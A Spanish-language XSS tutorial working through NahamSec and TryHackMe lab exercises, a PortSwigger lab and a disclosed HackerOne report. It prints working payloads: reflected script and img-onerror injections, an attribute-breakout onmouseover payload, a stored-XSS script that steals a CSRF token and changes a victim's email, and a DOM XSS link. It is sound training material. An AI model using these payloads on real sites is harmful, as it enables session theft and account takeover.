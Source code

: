 # __Definición__

XSS permite a un atacante ejecutar código arbitrario client-side en el navegador de una víctima. XSS se puede utilizar para phishing, datos de exfilación, adquisición de cuentas y más.

# __Impacto__

Leer/modificar/eliminar contenido de cualquier página, robar cookies o sesiones de un usuario y obtener acceso a su cuenta, ofrecer contenido malicioso como phishing.

# __Tipos__

- Reflected XSS 

- Stored XSS: almacena el payload en la base de datos.

- DOM XSS

## __Reflected XSS__

En este caso voy a estar practicando en un laboratorio creado por NahamSec el cual podeis descargarlo en el siguiente enlace. 

[Lab de Nahamsec](https://github.com/nahamsec/nahamsec.training)

Lo primero con lo que nos encontramos es con un formulario que nos está pidiendo nuestro nombre. Si lanzamos el siguiente comando vamos a estar realizando un secuestro de cookie.


![](https://cdn.discordapp.com/attachments/866283809338818580/874823906328981524/si.png)

En este caso concreto no existe ningún tipo de cookie en la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJ-Ug2n3znolYFg9G%2Fimage.png?alt=media&amp;token=32f699c9-ba14-4f1b-989c-0a0368b67da1)
![]()

Podemos observar como primero interpreta el código malicioso y luego nos devuelve el output normal.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJGewZ_3gsBMvxsrt%2Fimage.png?alt=media&amp;token=01bd6c53-4700-4331-83c3-252ec6268e8d)

```xml
test1"><script>alert()</script>
</title><u> h4ns </u> <script>alert(1)</script>
```
Si tenemos un parámetro vulnerable como es en este caso name podríamos aprovecharnos y poner nuestro nombre cerrándolo con una comilla ' para luego decirle a la aplicación que ejecute todo lo que viene a continuación y descarte todo lo que está comentado a partir de las barras // .

```bash
http://xss4.naham.sec/?name=h4ns%27;+alert(1);//aaaa
# ' = %27 (URL Encode)
```
Aquí veriamos el ejemplo:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeLFzinC6HPLxgP0RB%2Fimage.png?alt=media&amp;token=57d97055-638b-40aa-bb88-e2ba6141fcfe)

### __Primer ejercicio__

Una parte de los laboratorios de Nahamsec me pareció super interesante, vamos a echarle un vistazo:

Estamos en la pagina principal de la tienda https://nahamstore.thm y vamos a enviar un directorio invalido como por ejemplo https://nahamstore.thm/h4ns a ver que nos dice la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-MglsgGiYwktcwhyyPmS%2Fimage.png?alt=media&amp;token=3d3c9a66-b9d9-422a-bbf8-b764559e749d)

Ajá lo URL encodea. Vamos a probar a añadirle un parámetro aleatorio como por ejemplo file a ver cual es su respuesta.

```
http://nahamstore.thm/h4ns?file=xss
```

Después de lanzarlo nos damos cuenta que cualquier cosa que pongamos en la barra de búsqueda, si no es encontrado, es reflejado en el cuerpo de la página.

Vamos a añadirle a nuestra petición el tag `<h1>` a ver que nos devuelve la página:

```
http://nahamstore.thm/h4ns?file=<h1>xss
```

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-Mgm0HxBXKQo_KevndPO%2Fimage.png?alt=media&amp;token=c99ccc61-b55c-4295-88b5-b0a471079138)

Perfecto, ya tenemos vía libre para robar unas cookies por ejemplo.

```
http://nahamstore.thm/h4ns?file=<img src=x onerror=alert(document.cookie)>
```
Lo que estamos haciendo en este código de javascript es pedir que nos cargue una imagen llamada `x` pero como esta no existe pues nos va a ejecutar el `alert()`. Esto se produce gracias al parámetro `onerror`.

### __Segundo ejercicio__

En este caso nos vamos a dirigir a uno de los productos que están disponibles para comprar en la tienda, en concreto el de las pegatinas. 

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmClfVhwoT8u8ZRKoE%2F-MgmFI8Jkzv_WorlBicz%2Fimage.png?alt=media&amp;token=5be4d9ac-9c49-42f9-a5a0-f4fea001ade6)

Vamos a abrir el Burp para ver como viaja esta petición:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmFTP6qsMFnnr07dsY%2F-MgmH4eZcU800oWuPwYc%2Fimage.png?alt=media&amp;token=e7a814df-15be-427d-b671-9caeb2f0a1f9)

En seguida nos damos cuenta que hay un parámetro llamado `discount` pero, como podriamos hacer llegar un xss ahí?

Mandamos la petición al Repeater y le damos a `Follow redirect`, lo que vamos a hacer a continuación es lo que muchas páginas webs hacen y es meter un parámetro en la URL de la petición GET. En este caso vamos a introducir `discount`.

Si le mandamos el payload clásico para ver si pasa algo...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXgeGhsDYIN0x--1v%2Fimage.png?alt=media&amp;token=d8c356fd-f959-498f-9f2c-1b12c6486765)

y vemos el resultado en la respuesta del servidor...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXuFvJduTgx_rngeE%2Fimage.png?alt=media&amp;token=758eac22-ff65-4e4f-94e9-05f37a61a176)

nos vamos a dar cuenta que nos han eliminado los caracteres `<>`.

Por lo tanto vamos a eliminarlos de nuestro payload y a crear uno nuevo el cual al pasar el ratón por encima del input nos salte una alerta.

```
http://nahamstore.thm/product?id=2&added=1&discount=11" onmouseover=alert(1);"
```

Podemos verificar que esto se va a ejecutar correctamente si miramos la respuesta:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mgmbv-yMZVbZwCO2LtH%2F-MgmcISZI4kEGHcCJNzr%2Fimage.png?alt=media&amp;token=31fe1f44-c082-43d5-925d-c019570c9a19)

Al final del payload podríamos poner " para cerrar comillas o // para hacer que esta última se convirtiese en un comentario.

## __Stored XSS__

Estos casos son un poco más complicados debido a su complejidad. Podríamos aprovecharnos de esta vulnerabilidad para realizar un CSRF, vamos a ver un ejemplo. 

Esta vez voy a estar operando en la plataforma de PortSwigger.

[XSS to CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Si miramos el código de la página vamos a observar que tenemos que hacer una solicitud POST a la dirección `/my-account/change-email` . También nos damos cuenta de que existe un anti-CSRF token en un input oculto llamado `token`.

Ahora ya podemos montar nuestro payload el cual deberá cargar la página de la cuenta de usuario, extraer el token CSRF y luego usar el token para cambiar la dirección de correo electrónico de la víctima.

Lo escribimos en algún blog que tenga los comentarios activados y...

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=h4ns@test.com')
};
</script>
```

 Esto hará que cualquier persona que vea el comentario emita una solicitud POST para cambiar su dirección de correo electrónico a h4ns@test.com.

 ## __DOM XSS__

 DOM XSS ocurre cuando javascript refleja datos de un recurso controlado por un atacante (por ejemplo, dentro de la URL) y los pasa a una función más adelante.

Vamos a observar algún ejemplo:

[Reporte de hackerone](https://hackerone.com/reports/324303)

Este tipo de XSS es mucho mas complicado que los anteriores y es necesario tener conocimientos a cerca de javascript y HTML.

La persona que reportó esta vulnerabilidad nos cuenta como a partir del siguiente código interpeta que está buscando una localización para cargar una página en particular dentro de esa web.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeYUWdJwE1INxoBHj1%2Fimage.png?alt=media&amp;token=e1fce6b9-904d-422e-860a-5a16a9f464ae)

Un atacante puede poner su payload en el enlace y se incrustará en el output de la página:

```
https://mycrypto.com/#send-transaction<div/class="header__wrap"><a/href=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif></div>
```

Aquí tendríamos el resultado:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeZ5ESHG-WrSmxRdIV%2Fimage.png?alt=media&amp;token=6d18cbbb-4311-424a-b803-7c860b7fd82a)

En concreto sería este tipo de evento el que se está vulnerando:

[Location href Property](https://www.w3schools.com/jsref/prop_loc_href.asp)

Gracias :)
